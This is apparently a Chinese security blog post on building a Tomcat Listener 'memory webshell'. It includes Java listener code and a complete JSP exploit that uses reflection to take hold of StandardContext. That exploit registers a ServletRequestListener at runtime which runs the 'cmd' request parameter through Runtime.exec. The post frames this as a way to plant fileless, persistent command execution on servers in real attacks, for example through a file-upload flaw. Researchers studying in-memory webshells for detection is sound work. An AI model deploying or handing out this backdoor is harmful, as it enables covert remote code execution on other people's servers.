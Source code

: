 ```yaml
---
layout: post
date: 2025-5-15
title: "Listener内存马"
author: "XinYiSleep"
category: Java
---
```

<h1 id="GT0vV">一.基础信息</h1>

```
在上一篇文章中我们已经简单的了解了一下Listener了，那么首先能考虑被作为内存马的是ServletRequestListener：对请求对象的初始化和销毁进行监听
说人话就是每次请求的时候就是初始化，请求结束销毁，这一技术主要在Servlet3.0之后，并且呢tomcat7.x及以上才可以用，因为tomcat7.x在支持Servlet3.0，
为了方便调试我们添加包(代码一)，原因很简单你不加根本进不去(图一)。
懂点的可以先看一下图二。
```

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.100</version>
</dependency>
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/1.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/0.png)

<h1 id="Djyi0">二.动态注册</h1>

```
我们得知请求任意url的时候会被执行到监听器，首先这个监听器在写入之后需要重启才能生效,那么在实战中
我们不可能去修改代码更不可能重启别人服务，那么就需要动态注册，大致就是分析一下正常的Listener是怎么的一个过程，废话不多说，
首先我们需要创建一个恶意的Listener(代码一),在其中打上断点(图一)，走进StandardContext类中fireRequestInitEvent方法(图二)，
接着一直往上跟看看从哪里获取到了ListenerWeblshell的实例，在第一行getApplicationEventListeners方法中获取到了，那么看看是什么(图三,图四)，
得知他是一个类中的属性的话，那么需要修改他先看看有那么有Setter,发现是有的(图五)，到这里其实就已经结束了，现在我们的目的就是需要通过这个Setter进行动态注册打成目的。
```

```java
package com.example.webshell1;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
        String cmd = servletRequest.getParameter("cmd");
        if (cmd!=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        
    }
}

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/2.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.5png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/4.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/5.png)

```
在上面我们得知存在setApplicationEventListeners和addApplicationEventListener都可以修改，
我们先用addApplicationEventListener，现在的问题是如何拿到StandardContext实例，
那我们往上推看看谁调用了StandardContext他是怎么拿到的(图一)，那我们就模拟他就行了问我具体干啥了一切不知道也不需要管他，
(代码一,图二)，那你就要问了，你这是个锤子内存马呀，图二中已经创建一个新的Litsener,你就算添加进去有什么用这不冗余了吗？
而且还需要改java代码你这不是天方夜谭吗？没错下面我们就要想到的攻击面了，如果说存在文件上传的情况下我们是否可以在JSP中进行操作呢？
答案是可以的因为JSP中九大核心内置对象中刚好有request(可以看上一篇文章简单了解一下)，
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/6.png)

```java
package com.example.webshell1;

import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        //拿到StandardContext实例
        Request Reques = (Request)sre.getServletRequest();
        StandardContext context = (StandardContext)Reques.getContext();
        //修改添加我们的Listener
        TestListener testListener = new TestListener();
        context.addApplicationEventListener(testListener);
    }
}
```
![](https://xinyisleep.github.io/img/2025/Webshell/Listener/7.png)

<h1 id="cZYlj">三.完整Listener内存马</h1>

```
首先获取org.apache.catalina.connector.Request的实例，在JSP中request是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest(图一,图二)，
但是存在一个request属性刚好类型是Request(图三)，通过反射获取request，之后取出org.apache.coyote.Request，
强制转换成StandardContext对象，执行addApplicationListener，完整exp(代码一),访问这个JSP文件之后会添加一个新的Listener到ApplicationEventListener，
重新请求的时候getApplicationEventListeners就已经有我们的Listener了，到这里还是有点绕的可以手动测试看看，要是这都没理解那我也无能为力了，
这已经是手把手了，好了其实还是蛮简单的，下期见(冲冲冲)。

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.5.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/9.png)

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public class TestListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
            String cmd = servletRequest.getParameter("cmd");
            if (cmd!=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
%>

<%
    //获取org.apache.coyote.Request实例
    //request实际上是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest
    Field request1 = request.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    //上面获取了request属性取出org.apache.coyote.Request
    Request o = (Request)request1.get(request);
    //强制转换成StandardContext对象，执行addApplicationListener
    StandardContext context = (StandardContext)o.getContext();
    context.addApplicationEventListener(new TestListener());
%>

```



